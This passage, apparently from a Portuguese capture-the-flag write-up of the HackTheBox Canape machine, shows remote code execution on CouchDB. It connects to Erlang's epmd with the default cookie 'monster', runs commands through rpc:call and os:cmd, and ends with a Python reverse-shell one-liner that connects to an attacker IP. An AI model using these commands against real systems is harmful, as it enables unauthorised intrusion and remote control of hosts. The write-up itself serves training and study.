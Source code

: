 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_d2.png)

Então seguindo essa ideia se conseguirmos reproduzir o cookie "monster" vamos ter acesso ao banco de dados, e como ele está sendo executado como homer, vamos ter acesso a RCE como homer

We can connect to epmd with erl, The Erlang Emulator. We need to give it two parameters. -sname can be anything, just what we are known as in the cluster. -setcookie is the auth from the warning on the CouchDB site. erl throws an error if our HOME variable isn’t set, but that’s easy enough to fix:

Nós podemos nos conectar ao `epmd` com o `erl`. É aquele parser de json que nos permite virar admin. Nós precisamos passar dois comandos, -sname, que pode ser qualquer cosia. E o -setcookie que é o que diz que é perigoso no site.

Pronto, nos conectamos ao banco de dados!

`erl -sname Couch -setcookie monster`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_d3.png)

O erl possui um módulo de execução de comandos de sistema operacional... puuuts, agora sim!

> http://erlang.org/doc/man/os.html

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_d4.png)

O erl possui outro módulo também chamado rpc, que podemos executar comandos através dos processos do couchdb (lembra que tinha processos sendo executados como homer... então!)

> http://erlang.org/doc/man/rpc.html

Checamos nosso nodes que estão sendo usados agora, e está vazio

`nodes()`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_d5.png)

Quando nos fazemos uma chamada rpc, ele vai executar o comando, assumindo que o cookie deu match!

`rpc:call('couchdb@localhost', os, cmd, [whoami]).`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_d6.png)

Pronto, agora é só pegar uma reverse!

```
rpc:call('couchdb@localhost', os, cmd, ["python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.16.117\", 443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"]).
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_d7.png)